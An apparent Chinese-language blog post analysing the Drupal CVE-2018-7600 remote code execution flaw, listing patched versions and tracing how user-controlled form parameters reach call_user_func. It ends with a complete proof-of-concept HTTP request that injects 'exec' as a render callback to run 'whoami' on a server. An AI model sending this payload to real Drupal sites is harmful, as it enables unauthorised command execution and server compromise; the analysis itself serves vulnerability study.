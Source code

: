 ```yaml
---
title: Drupal CVE-2018-7600 口语分析
date: 2018-5-24 8:50:30
tags: Web安全
toc: true
---
```


> 一些版本(还有6版本)  
7.x版本，更新到 7.58  
8.5.x版本，更新到 8.5.1   
8.4.x 版本，更新到 8.4.6   
8.3.x 版本，更新到 8.3.9   

## 口语分析 

###  描述
---
一个用php写的CMS，它有一个流程：注册页面时提交页面正确，返回注册成功
如果表单出错，比如邮箱重复，会调用 buildform ，把post表单数据构造成数组，作为 html 表单数据返回，另一个问题是，上传图片时，会返回缩略图，调用表单数组，上传图片会调用 uploadAjaxCallback 方法，第一个参数是form表单数组，上传函数中会把get的第一个参数element_parents的值转为数组赋值给 form_parents,```
	$form_parents = explode('/', $request->query->get('element_parents'));```,
然后有个函数，是把 from_parents 数组当作路径(本来就是路径看下面的poc 就知道了)去  from 表单按照这个路径下只有一个数组，取出来赋值给新的 $from ,下面有个函数把 from 数组当作参数，函数返回又调用另一个函数，而这个函数调用了 call_user_func 方法，call_user_func 的第一个参数是 callable，callable 是由 elements['#pre_render'] 赋值的，这是 post 数据可控，第二个参数 mail[#markup] 也是 post 参数 。

###  post get 发送数据的一个点
---
这里边，还有个点，post 一般 只有 post 数据，而这里从 get ，post 取值，是因为post get，基于tcp/ip，因为 浏览器 / 服务器限制，让 get post 有点不同，get post  浏览器没限制的话，或直接发包，都是可以发 http 头中 data，body数据的。

## POC
---
```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1

Host: 192.168.1.1:32767
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=whoami
```

